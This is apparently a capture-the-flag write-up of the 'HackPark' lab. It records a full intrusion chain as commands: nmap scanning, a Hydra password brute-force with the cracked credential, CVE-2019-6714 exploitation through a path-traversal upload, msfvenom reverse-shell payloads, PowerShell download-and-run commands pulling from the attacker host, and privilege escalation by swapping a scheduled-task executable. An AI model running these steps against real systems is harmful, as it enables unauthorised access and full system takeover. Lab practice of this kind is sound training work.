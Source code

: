 # Hack-Park Notes

___
# My IP:

> 10.8.19.163
___

# Target IP:

> 10.10.222.207
___

# NMAP Scan

> nmap -Pn -n -vv -sC -sV --script vuln -T5 10.10.222.207 | tee hackpark.nmap

Ports Open:

> 80

> 3389
___

# Go Buster:

> Found robots.txt

Many other url directories found but need a log on ultimately to make use of any of them.
___ 

# Hydra for the login.

> "hydra -l admin -P /usr/share/wordlists/rockyou.txt -u 10.10.222.207 http-post-form "/Account/login.aspx?ReturnURL=/admin/__VIEWSTATE=eF0aljhYKXUAJRkhdtPNTg4a8xQkHQpFAXBzLrvAKZkCQsJxdir3vMUjvbhOEJqweX7WFW7nLhZBNiBc%2FGvL2vcYMeXbwl7wqjboB29NeCtkicSP0Aj9glvUgzUQLLrYSqa8T%2BQRhDkuwc7uZ7iHjQfZW00QB6McZqgjd3GtDIjLzn72&__EVENTVALIDATION=kYwn3hjfoy5IxzfvK4t6Li%2BODjRM7h8ObONwzgZXSRh7Zp19gxOXCG63BnHv%2Bh9wW75ENJTIYLUdD979LR%2BzuXlNYGLqOfHPlfSpC2R3RDkJFhD9bGi0QzY6Rh85jGQT4RPLiUWWN%2BXgS%2FP2wMIrhsyfLhU1fkeJHrFY31WoIyOg%2FNoX&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login Failed" -vv"

> Username: admin	Password: 1qaz2wsx
___

# Website and Pivot to the box

CVE:

> cve-2019-6714

Started a netcat session with:

> nc -lvp 4452

Went to:

> http://10.10.38.187/admin/app/editor/editpost.cshtml

> http://10.10.38.187/?theme=../../App_Data/files
 

Uploaded the postview.ascx file that was given on exploit-db.com

Netcat session active!

Created a msfvenom backdoor for a more stable meterpreter connection:

> msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.8.19.163 LPORT=6666 -f exe -o shell.exe


Metasploit actions:

> use exploit/multi/handler
> set payload payload/windows/meterpreter_reverse_tcp

Upload file to the PC through a nc session. 

Start a HTTP server:

> cd DirFusion/HackPark
> python -m SimpleHTTPServer 8000

> powershell Invoke-WebRequest -Uri http://10.8.19.163:8001/shell.exe -Outfile shell.exe

> cd c:\Windows\temp

> start shell.exe

Find a service thats running as administrator byt uploading .winPEAS.bat in the meterpreter shell.

> upload /home/cory/DirFusion/winPEAS.bat

Found a Message.exe that is running as administrator. 

Uploading shell.exe under Temp directory and out file to to:

>powershell Invoke-WebRequest -Uri http://10.8.19.163:8000/winPEAS.bat -Outfile winpeas.bat

Replaced Message.exe with a reverse shell now admin.

> getuid - HACKPARK\Administrator

> search -f root.txt

>cat root.txt - 7e13d97f05f7ceb9881a3eb3d78d3e72

> cd c:\Users\jeff\Desktop

> cat user.txt - 759bd8af507517bcfaede78a21a73e39

# Without Meterpreter sessions

1. Create a msfvenom windows shell with the command:

> msfvenom -p windows/shell_reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.8.19.163 LPORT=5555 -f exe -o Message.exe

2. Connect to the login page and upload the PostView.aspcx document again.

3. Download the shell to the machine by creating a netcat session from the post view with:

> nc -lnvp 5552

4. Upload the stable shell created as Message.exe under:

> rename file message.exe to message.bak

> c:\Program Files (x86)\SystemScheduler

> powershell Invoke-WebRequest -Uri http://10.8.19.163:8000/Message.exe -Outfile Message.exe

5. Download winPEAS for enumaeration in c:\Windows\Temp:

> powershell Invoke-WebRequest -Uri http://10.8.19.163:8000/winPEAS.bat -Outfile winpeas.bat


___

